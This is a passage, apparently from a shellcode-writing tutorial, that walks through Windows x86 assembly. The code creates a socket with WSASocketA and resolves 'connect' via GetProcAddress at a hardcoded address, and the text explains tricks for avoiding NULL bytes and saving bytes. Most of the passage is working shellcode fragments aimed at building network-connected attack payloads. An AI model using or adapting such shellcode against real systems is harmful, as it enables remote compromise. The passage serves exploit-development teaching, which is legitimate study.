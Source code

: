 ~~~
	push ebx

	call eax		;call WSASocketA

	push eax		;save eax in edx
	pop edi			;...
~~~

Notice we used `push ebx` to push NULL bytes without actually writing any NULLs in our shellcode. We also used a little trick to reduce a few bytes. Instead of setting `0x6` in `bl`, we used `ecx`. Why? Because we knew in advance we would need to push `0x1`and `0x2` right after, so we decided to keep `ebx`as 0 and increment it later. This way we 'skipped' `0x6` and used `ebx` to save some bytes.

We also save the file descriptor of the newly created socket in `edi`, so we keep `eax` free to receive the next return value.

## Get connect with GetProcAddress
Pretty much the same as we have been doing so far to get functions addresses. 

~~~
.getConnect:
	xor eax, eax

	mov eax, 0x74636590     ;'\x90tce'
	shr eax, 8
	push eax
	push 0x6e6e6f63     ;'nnoc'
	push esp	    ;pointer to the string

	push ebp	    ;socket handler
	
	mov ebx, 0x7c80ae40 ;addr of GetProcAddress
	call ebx
~~~

Notice the small trick here to push 3 bytes followed by a NULL terminator. A somewhat common idea is to do:

~~~
.getConnect:
	xor eax, eax

	push byte 0x74	    ;'t'
	mov ax, 0x6365      ;'ce'
	push ax
	push 0x6e6e6f63     ;'nnoc'
	push esp	    ;pointer to the string

	push ebp	    ;socket handler
	
	mov ebx, 0x7c80ae40 ;addr of GetProcAddress
	call ebx
~~~
